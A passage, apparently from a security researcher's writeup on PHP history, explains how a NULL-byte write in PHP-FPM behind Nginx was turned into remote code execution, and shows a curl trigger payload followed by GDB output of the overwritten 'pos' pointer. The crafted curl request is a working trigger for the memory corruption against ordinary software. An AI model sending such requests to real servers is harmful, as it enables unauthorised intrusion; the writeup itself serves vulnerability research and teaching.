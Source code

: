 But how could a single NULL-byte write lead to an RCE? Here's the
ingenious part: @neex skillfully abused PHP-FPM's inetrnal memory
allocation for CGI variables. By overwriting the LSB (least significant
bit) of the `pos` field in the structure to `0`, he was able to overwrite
existing variable contents on the subsequent write. Combined with some
Hash Table magic, he successfully crafted a pure data-only attack -
performing full RCE without any memory read/write primitives at all [83]!

Honestly, the entire exploit was incredibly neat and packed with details.
Looking back through PHP's history, it's extremely rare to see
vulnerabilities that can directly cause RCE without any dangerous
functions or scripts at all. On top of that, this bug was also hard to
uncover through traditional fuzzing. To trigger it, you had to not only
leverage a specific edge case in Nginx, but also deal with PHP's internal
contiguous memory allocations, making it way harder for tools like ASAN to
catch - all of these truly make it a remarkable vulnerability in PHP
history!

So, without something like the CTF scene - where groups of hackers
intensively focus on seemingly minor details through trial and error - who
knows how long this bug would've stayed hidden?

</PRE>

***=> Exploit PHP-FPM Like a Boss!***

<br>

```console
=> [1] a minified payload to trigger the NULL-byte write!
$ curl http://orange.local/index.php/%0A$(printf %032d)?$(printf %01759d)

[...Switching to GDB]

Breakpoint 1, init_request_info () at ./sapi/fpm/fpm/fpm_main.c:1222
  1222                   path_info[0] = 0;
  1: /x path_info        = 0x55a371abfd60
  2: /x request.env.data = 0x55a371abfd60

|-------------------------------- [ next ] -------------------------------|

=> [2] the structure *BEFORE* the write
(gdb) p *request.env.data

  $1 = {
    pos = 0x55a371abf731,
    end = 0x55a371ac06b8,
    next = 0x55a371abe5b0,
    data = ""
  }

|-------------------------------- [ next ] -------------------------------|

=> [3] let's write!
(gdb) next

  [...]

|-------------------------------- [ next ] -------------------------------|

=> [4] the `pos` *AFTER* the write
(gdb) p *request.env.data.pos

  $2 = 0x55a371abf700

|-------------------------------- [ next ] -------------------------------|
```